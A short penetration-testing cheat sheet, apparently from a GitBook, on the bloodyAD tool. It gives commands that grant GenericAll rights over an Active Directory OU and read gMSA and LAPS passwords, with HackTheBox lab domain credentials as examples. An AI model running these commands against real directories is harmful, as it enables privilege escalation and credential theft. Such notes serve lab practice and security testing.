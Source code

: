 # BloodyAD

## Usage

### Rights Assignment

Give a user the specified rights over an object.

{% code overflow="wrap" %}
```bash
# give oorend user GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```
{% endcode %}

### GMSA password

{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}

### LAPS password

{% code overflow="wrap" %}
```bash
bloodyAD -u <user> -d <domain> -p <pass> --host <ip> get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="GitHub" %}
{% embed url="https://github.com/CravateRouge/bloodyAD" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/CravateRouge/bloodyAD/wiki" %}
{% endtab %}
{% endtabs %}
